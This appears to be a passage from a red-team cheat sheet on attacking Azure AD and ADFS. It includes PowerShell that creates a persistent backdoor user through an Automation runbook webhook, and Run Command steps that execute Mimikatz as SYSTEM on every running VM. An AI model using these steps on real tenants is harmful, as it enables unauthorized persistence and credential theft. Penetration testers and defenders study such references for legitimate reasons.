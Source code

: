 
## Azure AD - ADFS Federation Server ~Cloud Kerberos

Discover Federation Servers
* adfs
* auth
* fs
* okta
* ping
* sso
* sts

OWA Version Discovery : autodiscover.domain.com

## Azure AD - Persistence via Automation accounts

* Create a new Automation Account
    * "Create Azure Run As account": Yes
* Import a new runbook that creates an AzureAD user with Owner permissions for the subscription*
    * Sample runbook for this Blog located here – https://github.com/NetSPI/MicroBurst
    * Publish the runbook
    * Add a webhook to the runbook
* Add the AzureAD module to the Automation account
    * Update the Azure Automation Modules
* Assign "User Administrator" and "Subscription Owner" rights to the automation account
* Eventually lose your access…
* Trigger the webhook with a post request to create the new user
    ```powershell
    $uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
    $AccountInfo  = @(@{RequestBody=@{Username="BlogDemoUser";Password="Password123"}})
    $body = ConvertTo-Json -InputObject $AccountInfo
    $response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
    ```

## Azure VM - Execute command as NT SYSTEM with Contributor right

> Allow anyone with "Contributor" rights to run PowerShell scripts on any Azure VM in a subscription as NT Authority\System

```powershell
PS C:\> Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name

ResourceGroupName    Name       
-----------------    ----       
TESTRESOURCES        Remote-Test
PS C:\> Invoke-AzureRmVMRunCommand -ResourceGroupName TESTRESOURCES -VMName Remote-Test -CommandId RunPowerShellScript -ScriptPath Mimikatz.ps1
```

Against the whole subscription using MicroBurst.ps1
